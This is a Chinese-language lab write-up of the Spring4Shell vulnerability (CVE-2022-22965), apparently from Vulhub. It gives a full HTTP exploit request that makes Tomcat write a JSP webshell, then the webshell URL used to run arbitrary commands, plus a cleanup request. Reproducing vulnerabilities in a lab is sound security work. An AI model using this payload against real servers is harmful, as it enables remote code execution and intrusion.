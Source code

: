 # Spring Data Binding与JDK 9+导致的远程代码执行漏洞 CVE-2022-22965

## 漏洞描述

在JDK 9+上运行的Spring MVC或Spring WebFlux应用程序可能存在通过数据绑定执行远程代码（RCE）的漏洞。

现在已知的利用方法要求应用程序以WAR部署的形式在Tomcat上运行，然而，该漏洞的性质更为普遍，可能有其他方法可以利用它。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22965
- https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/

## 环境搭建

Vulhub执行如下命令启动一个Spring WebMVC 5.3.17服务：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080/?name=Bob&age=25`即可看到一个演示页面。

## 漏洞复现

发送如下数据包，即可修改目标的Tomcat日志路径与后缀，利用这个方法写入一个JSP文件：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: your-:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```

![image-20220412215932241](images/image-20220412215932241.png)

然后，访问刚写入的JSP Webshell，执行任意命令：

```
http://your-ip:8080/tomcatwar.jsp?pwd=j&cmd=id
```

![image-20220412220112693](images/image-20220412220112693.png)

注意，需要在利用完成后将`class.module.classLoader.resources.context.parent.pipeline.first.pattern`清空，否则每次请求都会写入新的恶意代码在JSP Webshell中，导致这个文件变得很大。发送如下数据包将其设置为空：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

总体来说，这个漏洞的利用方法会修改目标服务器配置，导致目标需要重启服务器才能恢复，实际测试中需要格外注意。

## 漏洞POC

- spring4shell_behinder：https://github.com/4nth0ny1130/spring4shell_behinder
